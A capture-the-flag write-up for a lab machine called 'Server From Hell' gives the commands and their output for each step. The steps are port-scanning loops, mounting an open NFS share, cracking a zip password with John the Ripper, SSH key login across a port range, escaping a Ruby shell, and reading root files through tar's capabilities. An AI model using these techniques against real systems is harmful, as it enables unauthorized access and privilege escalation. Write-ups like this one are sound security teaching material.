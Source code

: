 # SERVER FROM HELL WRITEUP
#### Author: DeadPackets

## [Task 1] Flag.txt | "Start at port 1337 and enumerate your way."
#### First connect to port 1337 with nc
```
Welcome traveller, to the beginning of your journey
To begin, find the trollface
Legend says hes hiding on the first 100 ports
Try printing the banners from the ports
```

### Write a simple script to connect from ports 1 - 100:
```bash
#!/bin/bash
for port in {1..100}
do
    nc 10.10.10.10 -p $port
done
```

Output of port 12345
```
NFS shares are cool, especially when they are misconfigured
It's on the standard port, no need for another scan
```

### NFS runs on port 2049
```
command:
showmount -e 10.10.10.10

output:
Export list for 10.10.10.10:
/home/nfs *
```

### Then just simply mount it
```
sudo mount -t nfs 10.10.0.10:/home/nfs /var/backups
```

### There is a file named backup.zip
#### But its password protected
```
zip2john backup.zip > hash
john hash -w ~/wordlists/rockyou.txt
```

### Once you've uncompressed the zip, we can see that it's hades's home directory
#### Output:
```
authorized_keys  flag.txt  hint.txt  id_rsa  id_rsa.pub
```

### Nice, we have the flag and an id_rsa key
##### The problem now is that we don't know which port ssh is running on, lets check the hint.
```
output:
2500-4500
```

## [Task 2] User.txt
#### this is probably refering the to range of ports that ssh is running on
#### lets modify our script
```bash
#!/bin/bash
for port in {2500..4500}
do
    ssh -i id_rsa hades@10.10.10.10 -p $port
done
```

### Now we just wait until we get a login prompt
#### Nice, we have a shell
```
 Welcome to hell. We hope you enjoy your stay!
 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

 ██░ ██ ▓█████  ██▓     ██▓    
▓██░ ██▒▓█   ▀ ▓██▒    ▓██▒    
▒██▀▀██░▒███   ▒██░    ▒██░    
░▓█ ░██ ▒▓█  ▄ ▒██░    ▒██░    
░▓█▒░██▓░▒████▒░██████▒░██████▒
 ▒ ░░▒░▒░░ ▒░ ░░ ▒░▓  ░░ ▒░▓  ░
 ▒ ░▒░ ░ ░ ░  ░░ ░ ▒  ░░ ░ ▒  ░
 ░  ░░ ░   ░     ░ ░     ░ ░   
 ░  ░  ░   ░  ░    ░  ░    ░  ░
                               
 Welcome to hell. We hope you enjoy your stay!
 irb(main):001:0>
```
### We have a shell, but its an interactive ruby shell
#### A simple command will allow us to spawn a shell
```
irb(main):001:0> system("/bin/bash")
```

### And we have user.txt
```
hades@hell:~$ ls
user.txt
```

## [Task 3] Root.txt
#### Now all we have to do is escalate our privs
#### Looking at the hint, we know that "getcap" has something to do with our escalation.
We can find capabilties with the following command
```
hades@hell:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/bin/tar = cap_dac_read_search+ep
```

### Looking at the output, we know that /bin/tar has read capabilites
##### It took me an embarrassingly long amount of time to realize that we did not have write access to /home/hades
##### So we need to do this in /dev/shm
#### tar -cvf root.tar /root/root.txt
#### tar -xvf root.tar
```
hades@hell:/dev/shm$ tar -cvf root.tar /root/root.txt
tar: Removing leading `/' from member names
/root/root.txt
hades@hell:/dev/shm$ ls
root.tar
hades@hell:/dev/shm$ tar -xvf root.tar
root/root.txt
hades@hell:/dev/shm$ ls
root  root.tar
hades@hell:/dev/shm$ cd root
hades@hell:/dev/shm/root$ ls
root.txt
```

## And we've rooted the box, nice


